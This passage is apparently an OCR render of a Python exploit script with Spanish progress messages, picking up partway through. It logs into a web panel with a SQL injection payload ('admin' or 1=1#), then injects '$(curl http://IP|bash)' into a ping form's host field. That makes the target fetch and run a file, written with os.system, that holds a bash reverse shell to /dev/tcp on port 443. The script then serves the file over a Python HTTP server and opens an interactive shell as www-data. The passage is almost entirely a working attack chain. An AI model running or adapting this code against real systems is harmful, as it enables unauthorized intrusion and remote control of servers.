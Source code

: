 ```python
            'username' : '''admin' or 1=1#''',
            'password' : 'loquesea'
        }
        r = s.post(url, data=login_data)
        data_exec = {
            'command' : 'ping -c 1',
            'host' : '$(curl http://%s|bash)' %IP
        }
        p1 = log.progress("\nCreando archivo index.html con contenido malicioso\n")
        time.sleep(2)
        os.system('echo "#!/bin/bash\n\nbash -i >& /dev/tcp/%s/443 0>&1" > index.html' %IP) 
        p1 = log.progress("\nMontando servidor con Python\n")
        subprocess.Popen(["timeout", "10", "python3", "-m", "http.server", "80"])
        p1 = log.progress("\nEnviando Payload...\n")
        time.sleep(2)
        r = s.post(url_exec, data=data_exec)
        
    except Exception as e:
        print(e)

if __name__ == '__main__':
    try:
        threading.Thread(target=obtainShell).start()
    except Exception as e:
        print(str(e))

    shell = listen(lport, timeout=10).wait_for_connection()

    if shell.sock is None:
        log.failure("[!]No se ha obtenido conexion")
        sys.exit()
    else:
        log.success("\n ✔️  Se ha obtenido una shell ✔️ \n")
        time.sleep(1)
        log.info("\nAcceso como www-data\n")
        time.sleep(1)

    shell.interactive()
```